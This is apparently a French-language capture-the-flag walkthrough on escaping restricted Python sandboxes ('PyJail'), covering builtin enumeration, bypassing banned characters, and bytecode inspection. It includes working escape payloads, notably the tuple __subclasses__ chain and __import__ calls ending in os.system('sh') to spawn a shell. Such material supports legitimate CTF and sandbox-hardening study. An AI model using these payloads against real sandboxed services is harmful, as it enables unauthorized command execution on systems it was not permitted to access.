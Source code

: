 # GTFO of PyJail : Walkthrough

Environnement restreint où le but est de récupérer des données sensibles ou bien de sortir de l’application. Ici le langage utilisé est le Python.

## Etape 1 : Tester l’environnement et ce qu’on peut y faire :

Tester l’utilisation des built-in functions : dir(), globals(), locals(), type(), list(), exit(), __import__() …
Tester les caractères interdits comme _, __, “, ‘, ., etc …

## Etape 2 : Lister les objets disponibles (si possible) :

Utiliser dir() tout simplement. Permet de vérifier si des imports ont été faits.

## Etape 3 : Inspecter les objets suspects ou utils :

En utilisant type(), dir() et getattr() si le . est interdit.

Tips pour générer des keywords bannis :
Si les “ sont autorisés, il est possible d’utiliser la concaténation pour générer des keywords comme un nom de fonction.
On peut aussi utiliser des upper/lower case
Trouver une instance du keyword
Être malin !!!

Exemple : getattr(os, dir(os)[-20])(sh) en sachant que dir(os)[-20] donne system
Attention : getattr() utilise une chaîne de caractères comme attribut !

## Etape 4 : Utiliser le builtin __import__() si non banni :

Regarder si objet __bultins__ existant, si oui :
getattr(__builtins__ ,  __import__)(“os”).system(“sh”) par exemple

## Etape 5 : Le cheatcode absolu : le tuple () !!! :

Cette astuce permet, à partir du système d’héritage, d’accéder à de nombreux objets. Voici l’explication détaillée :
on crée un tuple : ()
on récupère l’attribut class (type de l’objet) : ().__class__
on récupère la class mère (class object) : ().__class__.__base__
on récupère les classes filles : ().__class__.__base__.__subclasses__()
on accède à un objet intéressant : ().__class__.__base__.__subclasses__()[-20]
on instancie l’objet : ().__class__.__base__.__subclasses__()[-20]()
on regarde ses attributs : dir(().__class__.__base__.__subclasses__()[-20]())
on chope un module : ().__class__.__base__.__subclasses__()[-20]()._module
on récupère ce qui est intéressant : ().__class__.__base__.__subclasses__()[-20]()._module.__builtins__[‘__import__’]
 c’est gagné ! ().__class__.__base__.__subclasses__()[-20]()._module.__builtins__[‘__import__’](‘os’).system(“sh”)


## Etape 6 : Le reverse si fonction intéressante :

Chaque fonction possède un attribut func_code qui possède des attributs intéressants sur lesquels on peut s’appuyer.

Voici différents attributs :
co_argcount : nombre d’arguments attendus
co_code : bytecode
co_consts : constantes utilisées
co_name : nom de la fonction
co_names : nom des fonctions utilisées
co_nlocals : nombre de variables locales
co_varnames : noms des arguments et variables locales



Il est possible d’utiliser le module dis pour visualiser le pseudo code en le désassemblant.

Exemple (en Python):

import dis

co_code = …
co_names = …
co_argc = …
co_varnames = …
co_consts = …

dis.disassemble_string(
    list(co_code),
    co_argc,
    co_varnames,
    co_names,
    co_consts
)

Ensuite patcher le bytecode pour altérer le programme et faire en sorte que ça nous aide.

## Etape 7 : Etudier les autres attributs de fonctions :

Il existe d’autre attribut du même type que func_code mais moins “puissants”.
Ceux-ci sont les suivants :
func_globals :
func_doc :
func_name : nom de la fonction
func_defaults : 
func_dict :
func_closure :
